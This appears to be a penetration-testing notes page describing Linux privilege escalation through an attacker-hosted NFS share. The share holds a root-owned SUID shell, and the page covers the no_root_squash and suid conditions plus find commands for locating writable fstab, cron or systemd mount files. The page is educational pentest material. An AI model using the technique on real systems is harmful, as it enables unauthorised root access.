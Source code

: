 # NFS (attacker-machine)

> NOTE: Do not confuse this method with NFS (client-side). The NFS server in this case is ran from the attacker machine instead

### Attacker machine

* Create a mountable share point hosting a shellcode with _**root**_ as owner, and SUID bit set
* Make the shellcode file executable by all



### Target machine

* Mount the attacker share
* Execute the binary to gain a root shell&#x20;



### Required conditions

1. NFS share configurations does not suppress SUID

_Attacker machine_

* &#x20;`/etc/exports` should have the `no_root_squash` option for the export:

```bash
/... *(...,no_root_squash)
```

_Target machine_

* The mount option should have the `-o suid` flag set:

```bash
$ mount -t nfs ... -o suid
```



2. Misconfigured mount settings&#x20;

> Note that the `mount` command requires superuser privileges

* Writable `/etc/fstab` — this file controls the mounting of file systems on boot
* Writable and privileged cron-jobs, or _systemd_ services with mount functions that allows an attacker to modify the contents, and point the mount towards the attacker server instead
* Method to run `mount` without _sudo_



### Enumeration (possible scripts)

```bash
# /etc/fstab
$ ls -l /etc/fstab

# systemd services
# find writable files under systemd directories and search inside for the word "mount"
$ find /etc/systemd/system -writable -type f -exec grep -iH "mount" {} \; 2>/dev/null 


# cronjobs
# find writable files under cron directories and search inside for the word "mount"
$ find /etc/cron* -type f -writable -exec grep -iH "mount" {} \; 2>/dev/null 
```
